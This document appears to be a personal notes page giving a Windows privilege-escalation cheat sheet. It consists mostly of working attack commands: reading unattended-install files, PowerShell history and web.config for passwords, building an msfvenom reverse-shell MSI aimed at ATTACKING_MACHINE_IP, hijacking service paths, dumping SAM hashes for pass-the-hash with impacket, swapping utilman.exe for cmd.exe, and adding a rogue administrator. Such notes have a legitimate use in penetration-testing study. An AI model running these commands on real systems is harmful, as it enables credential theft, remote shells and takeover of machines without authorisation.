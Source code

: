 ```yaml
---
title: "Privilege Escalation"
tagName: privilege_escalation
search: exclude
permalink: act_privilege_escalation.html
sidebar: home_sidebar
toc: false
folder: act
---
```


## The result of techniques that provide an attacker with higher permissions on a system or network.



Windows

Simple checks
These files may have passwords left from unattended installations:
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml

Check if a password has been typed in powershell history (run from cmd.exe)
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

IIS web server running?
Check files like this...
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

Shortcut...
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString

Any saved passwords around?
cmdkey /list
if so get a command line by:
runas /savecred /user:admin cmd.exe

Known cleartext passwords
PuTTY
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s

check scheduled tasks to see if there\'s any tasks run as a priviledged user that you might be able to rename your .exe or .bat to?
schtasks


Check if AlwaysInstallElevated is possible with these keys (both need to be set)
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

if it does then....
create an msi
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
copy it to the target and run
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

Check all services..
wmic service get name,startname

started services only:
wmic service where started=true get  name, startname

Insecure Permissions on Service Executable
check this reg key for any services that might be useful... check for any subkeys called \'security\'
HKLM\SYSTEM\CurrentControlSet\Services\

If you have an unquoted service (i.e. a service executable with spaces, but without quotes we can try to get our exe run instead)


Insecure Service Permissions

If you\'re really lucky...

https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk

You might need to accept the EULA like this....
accesschk64.exe -accepteula

accesschk64.exe qlc service_name
if the permission SERVICE_ALL_ACCESS is there... you\'re in!

copy an exploit across and grant access to everyone
icacls C:\rev-svc3.exe /grant Everyone:F

sc config vulnerable_service binPath= "C:\rev-svc3.exe" obj= LocalSystem




whoami /priv
https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants


Pass-the-Hash attacks

if your user has SeBackup / SeRestore
Save off two registry hives...
reg save hklm\sam C:\
reg save hklm\system C:\

Then use impacket
https://www.kali.org/tools/impacket/

python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
python3.9 /opt/impacket/examples/psexec.py -hashes hashXXXXXXXXX administrator@IP_ADDRESS


If your user has SeTakeOwnership then Bob is your auntie\'s husband...
take ownership
takeown /f C:\Windows\System32\Utilman.exe
take priviledges
icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
overwrite the &quot;ease of access&quot; executable
copy cmd.exe utilman.exe
Now when the screen is locked you can gain full system access by clicking on the ease of access icon!



SeImpersonate / SeAssignPrimaryToken

https://github.com/antonioCoco/RogueWinRM



Unpatched Software

get a list of installed programs (also check for programs not listed with wmic)
wmic product get name,version,vendor

Check for exploits for these program versions using google or check on these sites:
https://www.exploit-db.com/
https://packetstormsecurity.com/


Add a new user and make it an admin
net user pwndUser SimplePassw0rd /add & net localgroup administrators pwndUser /add




scripts
To be run on target machine
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

https://github.com/itm4n/PrivescCheck

https://www.metasploit.com/
then use 
multi/recon/local_exploit_suggester


To be run on attack machine
https://github.com/bitsadmin/wesng



Some resources to read over...
https://jlajara.gitlab.io/Potatoes_Windows_Privesc


https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/_LEARNING_AND_SOCIALS/BOOKS.md




{% include taglogic.html %}

{% include links.html %}
